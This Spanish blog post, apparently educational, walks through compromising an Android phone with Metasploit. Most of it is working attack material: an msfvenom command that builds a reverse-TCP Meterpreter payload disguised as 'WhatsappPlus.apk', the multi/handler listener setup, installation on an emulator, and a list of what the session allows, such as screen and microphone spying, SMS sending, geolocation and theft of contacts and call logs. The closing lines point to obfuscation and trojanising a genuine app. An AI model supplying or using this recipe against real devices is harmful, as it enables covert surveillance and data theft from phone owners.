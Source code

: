 ```yaml
---
layout: post
category: red
tags: hack android meterpreter msfvenom msfconsole metasploit
author: RedDev
title : Vamos a hackear un móvil android
---
```


## Introducción
En este artículo vamos a conocer una de las maneras más comunes con las cuales los hackers ganan acceso a nuestros dispositivos android.

## Herramientas a utilizar 
- Emulador android 7.0
- Sistema Kali Linux
- Metasploit

## Manos a la obra
### 1.Creando el payload
Para este fin usaremos msfvenom, una de las herramientas de MetasPloit, como nuestro objetivo es un móvil android usaremos el siguiente comando:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.126.145 LPORT=4444 R > WhatsappPlus.apk
```
Siendo LHOST nuestra ip, en este caso privada y el LPORT el puerto de escucha.
El payload es de tipo meterpreter, este tipo de virus es muy peligroso ya que funciona por medio de inyecciones dinamicas en memoria, lo que lo hace difícil de detectar y además permite el uso de otros exploits de forma fácil.
![image](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/602b5004-d20c-4eb2-b4dc-477b00588fea)

### 2.Configurando el listener
Primero abrimos msfconsole
```bash
msfconsole
```
Tras esto usamos: 
```bash
use multi/handler/
set payload android/meterpreter/reverse_tcp
```
Tras esto configuraremos el listener.
Por defecto está así:
```bash
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (android/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
Por lo que solo tendremos que configurar nuestro LHOST de esta forma:
```bash
set lhost eth0
```
Siendo eth0 nuestra interfaz de red por la que estaremos en escucha, aunque también podemos escribir nuestra IP privada a mano
Trás esto escribimos:
```bash
run
```
Y a funcionar :)
![Captura de pantalla 2023-05-26 011816](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/cd602b93-315a-4959-bde3-410427a4595d)

## 3.Enviando e instalando el apk maliciosa
Descargamos la apk en el dispositivo:
Ahora procedemos a instalarla, y una vez abierta, obtenemos la sesión:
![Captura de pantalla 2023-05-26 012015](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/f76b45b1-7bbe-48ed-8612-ca4dfa19eb5b)


Ahora vamos a ver las opciones que nos brinda este tipo de virus:
![Captura de pantalla 2023-05-26 012250](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/c1827fef-4c27-4f0c-be32-e7edb706510d)
![Captura de pantalla 2023-05-26 012320](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/31ab0f89-9fde-4f06-8345-e7d3660fa3c6)

Entre las opciones que nso brinda esta:
- Espiar la pantalla del dispositivo
- Grabar el micrófono o la webcam
- Iniciar aplicaciones
- Enviar SMSs
- Geolocalizar el dispositivo
- Robar el historial de llamadas, contactos, SMSs
- Esconder la aplicación maliciosa
- Instalar aplicaciones...

## Conclusiones
Como veis este tipo de virus son muy peligrosos, pudiendo hacer mucho daño al usuario.
Como disclamer, quiero recalcar que este método no es efectivo a día de hoy ya que el antivirus de android y lo "extraña que es la app", es difícil de hacela efectiva esta técnica, para esto se utilizan diversas técnicas como ofuscación o esconder el payload en una app veridica y de esta forma usar la app como caballo de troya.

